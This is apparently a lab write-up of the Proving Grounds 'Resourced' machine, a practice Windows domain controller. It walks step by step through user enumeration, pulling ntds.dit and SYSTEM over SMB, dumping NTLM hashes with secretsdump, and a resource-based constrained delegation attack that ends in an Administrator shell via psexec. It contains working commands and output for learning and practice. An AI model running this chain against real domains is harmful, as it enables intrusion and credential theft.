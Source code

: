 # Network Enumeration

```bash
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws


PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-20 12:50:49Z)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf       .NET Message Framing
Service Info: Host: RESOURCEDC; OS: Windows; CPE: cpe:/o:microsoft:windows

```



## Information Collection

### Enum4linux

Use `Enum4linux` to get if there are any username.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/resourced]                                                              
└─$ enum4linux  -U 192.168.212.175
```



<img src="../Images/image-20230820211642582.png" alt="image-20230820211642582" style="zoom:80%;" />

Now get 13 users. And also the user V.Ventz has a reminder `HotelCalifornia194!`.

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[M.Mason] rid:[0x44f]
user:[K.Keen] rid:[0x450]
user:[L.Livingstone] rid:[0x451]
user:[J.Johnson] rid:[0x452]
user:[V.Ventz] rid:[0x453]
user:[S.Swanson] rid:[0x454]
user:[P.Parker] rid:[0x455]
user:[R.Robinson] rid:[0x456]
user:[D.Durant] rid:[0x457]
user:[G.Goldberg] rid:[0x458]
```

Made a user wordlist for them. Use `kerbrute` to vaild username.

```bash
./kerbrute_linux_amd64 userenum --dc 192.168.212.175 -d resourced.local username.txt 
```



<img src="../Images/image-20230820212603407.png" alt="image-20230820212603407" style="zoom:80%;" />

Now all users are vaild, so use smbclient to try to connect.

<img src="../Images/image-20230820214611399.png" alt="image-20230820214611399" style="zoom:80%;" />

User `V.Ventz` has permission to access the smb server.

<img src="../Images/image-20230820214747035.png" alt="image-20230820214747035" style="zoom:80%;" />

Check all folders if that with useful information.

<img src="../Images/image-20230820215121708.png" alt="image-20230820215121708" style="zoom:80%;" />

<img src="../Images/image-20230820215432285.png" alt="image-20230820215432285" style="zoom:80%;" />

Get `system` and `ntds` files with `smbget`.

```bash
smbget "smb://192.168.212.175/Password Audit/registry/SYSTEM" --user V.Ventz%HotelCalifornia194!
smbget "smb://192.168.212.175/Password Audit/Active Directory/ntds.dit" --user V.Ventz%HotelCalifornia194!
OR
wget -m ftp://username:password@ip.of
```

Then get NTLM hash

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/resourced]                                                                                                
└─$ impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL                                                                                                                                                                                                                    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation             
[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d                                                                                                                                                                                                                   
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                    
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9298735ba0d788c4fc05528650553f94
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::
```

<img src="../Images/image-20230820223440107.png" alt="image-20230820223440107" style="zoom:80%;" />

Then use `crackmapexec` winrm to check if some users can login with `winrm`.

<img src="../Images/image-20230820224132364.png" alt="image-20230820224132364" style="zoom:80%;" />

User `L.Livingstone` has (pwn3d!)permission to login with `winrm`.

<img src="../Images/image-20230821134212884.png" alt="image-20230821134212884" style="zoom:80%;" />



# PE

## BloodHound

Upload `SharpHound.ps1` to target machine.

<img src="../Images/image-20230821135251776.png" alt="image-20230821135251776" style="zoom:80%;" />

Then running script.

```powershell
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> . .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents>  Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\L.Livingstone\Documents -OutputPrefix "AD_Information"
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> ls


    Directory: C:\Users\L.Livingstone\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/20/2023  10:55 PM          12013 AD_Information_20230820225545_BloodHound.zip
-a----        8/20/2023  10:55 PM           8964 N2NkZDYyMzItY2UxZi00N2ZkLTg4ZmQtNThlNjJlZDQ1NzJh.bin
-a----        8/20/2023  10:50 PM        1318097 SharpHound.ps1
-a----        8/20/2023  10:43 PM        2028544 winpeas.exe


*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> 
```

Download to local. Upload to `BloodHound`. Right know can see the user `L.Livingstone` has `GenericAll` permission.

<img src="../Images/image-20230821140059251.png" alt="image-20230821140059251" style="zoom:80%;" />

Right click -> help can see the `Windows Abuse`.

<img src="../Images/image-20230821140217847.png" alt="image-20230821140217847" style="zoom:80%;" />

This means I can perform a Kerberos Resourced Based Constrained Delegation attack, which essentially allows me to impersonate a particular user (Administrator). This can be done whilst I have a session on the machine or from my kali terminal provided I have the correct credentials.



## Add Computer

Use `impacket-addcomputer` to add a new computer name for target..

```bash
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.156.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
```

<img src="../Images/image-20230821140501306.png" alt="image-20230821140501306" style="zoom: 80%;" />

Now with this newly created machine, I need a way of managing the delegation rights. I can use this `rbcd.py` script to configure its attribute `msDS-AllowedToActOnBehalfOfOtherIdentity`.

The running the `rbcd.py`.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/resourced/rbcd-attack]
└─$ python3 rbcd.py -dc-ip 192.168.156.175 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
```



<img src="../Images/image-20230821141152068.png" alt="image-20230821141152068" style="zoom:80%;" />

Now all that is left to do is obtain the ticket created of the impersonated Administrator locally and authenticate to the domain controller using this ticket.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/resourced/rbcd-attack]
└─$ impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.156.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
```

<img src="../Images/image-20230821141351506.png" alt="image-20230821141351506" style="zoom:80%;" />

This will save the ticket locally so export it as such:

```bash
export KRB5CCNAME=./Administrator.ccache
```

Finally, I can use `psexec` to connect to the domain controller as the Administrator using local credential file thus spawning a high privileged level shell.

```bash
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.156.175
```



<img src="../Images/image-20230821141626122.png" alt="image-20230821141626122" style="zoom:80%;" />

<img src="../Images/image-20230821142535366.png" alt="image-20230821142535366" style="zoom:80%;" />

# Refer

https://www.youtube.com/watch?v=xMTCZt5DRB0

https://medium.com/@husamkhan2014/proving-grounds-resourced-dc-writeup-50c25c5a23c5
